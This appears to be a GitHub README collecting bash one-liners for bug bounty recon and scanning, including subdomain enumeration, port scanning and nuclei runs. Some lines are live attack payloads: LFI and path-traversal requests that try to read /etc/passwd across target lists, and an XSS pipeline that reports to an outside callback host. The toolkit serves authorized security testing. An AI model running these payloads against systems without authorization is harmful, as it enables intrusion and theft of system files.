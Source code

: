 ## Pentesting One-Liners Toolkit  
A curated collection of powerful reconnaissance and vulnerability scanning one-liners for bug bounty hunters and penetration testers.  

---

##  Recon Pipeline  

```bash  
subfinder -d redacted.com -all -active | shuffledns -d redacted.com -r resolvers.txt -w n0kovo_subdomains_huge.txt | tee subs.txt | dnsx -silent -a -aaaa -cname -resp | anew resolved.txt & naabu -l resolved.txt -nmap -rate 2000 | anew ports.txt & httpx -l ports.txt -silent | anew alive.txt & katana -list alive.txt -kf all -jc | anew urls.txt & nuclei -l urls.txt -es info,unknown -ept ssl -ss template-spray | tee nuclei.txt  
Full-chain reconnaissance from subdomain discovery to vulnerability scanning.
```

## Juicy Subdomains

```bash  
subfinder -d target.com -silent | dnsx -silent | cut -d ' ' -f1 | grep -Ei 'api|dev|stg|test|admin|demo|stage|pre|vpn'  
Find high-value subdomains using keyword patterns.
```

## BufferOver.run Lookup

```bash  
curl -s https://dns.bufferover.run/dns?q=.target.com | jq -r .FDNS_A[] | cut -d',' -f2 | sort -u  
Query BufferOver's DNS database for historical records.
```

## CertSpotter Certificates

```bash  
curl -s "https://api.certspotter.com/v1/issuances?domain=target.com&include_subdomains=true&expand=dns_names" | jq .[].dns_names | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u  
Extract subdomains from SSL certificates.
```

## Subdomain Takeover Check

```bash  
cat subs.txt | xargs -P50 -I% bash -c 'dig % | grep CNAME' | awk '{print $1}' | sed 's/\.$//g' | httpx -silent -status-code -cdn -csp-probe -tls-probe  
Detect dangling DNS records for potential takeover.
```

## LFI Scanning

```bash  
cat targets.txt | gau | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P25 sh -c 'curl -s "%" | grep -q "root:x" && echo "[+] VULN: %"'  
Automated LFI payload testing with parallel requests.
```

## Path Traversal Bypass

```bash  
cat targets.txt | while read host; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host VULNERABLE"; done  
Test for LFI bypasses using directory traversal.
```

## XSS Hunting

```bash  
subfinder -dL domainlist.txt | dnsx | shuf | gau | anew | egrep -iv "\.(jpg|jpeg|gif|tif|tiff|png|ttf|woff|woff2|php|ico|pdf|svg|txt|js)$" | urless | dalfox pipe -b https://xss.hunter/?q=1  
Full-chain XSS discovery pipeline with active probing.
```

## Shodan CLI

```bash  
shodan search ssl.cert.subject.cn:"target.com" --fields ip_str | anew ips.txt  
Find IPs associated with target's SSL certificates.
```

## Tools Used
Tool	Purpose	GitHub
Subfinder	Subdomain discovery	https://github.com/projectdiscovery/subfinder
ShuffleDNS	Mass DNS resolver	https://github.com/projectdiscovery/shuffledns
dnsx	DNS toolkit	https://github.com/projectdiscovery/dnsx
Naabu	Port scanner	https://github.com/projectdiscovery/naabu
HTTPX	HTTP probing	https://github.com/projectdiscovery/httpx
Katana	Crawler	https://github.com/projectdiscovery/katana
Nuclei	Vulnerability scanning	https://github.com/projectdiscovery/nuclei
Gau	URL collector	https://github.com/lc/gau
Dalfox	XSS scanner	https://github.com/hahwul/dalfox
Shodan CLI	Internet intelligence	https://cli.shodan.io/

## Credit

https://x.com/TheMsterDoctor1/status/1905471835128373665
https://github.com/ifconfig-me/cool-bugbounty-oneliners?tab=readme-ov-file
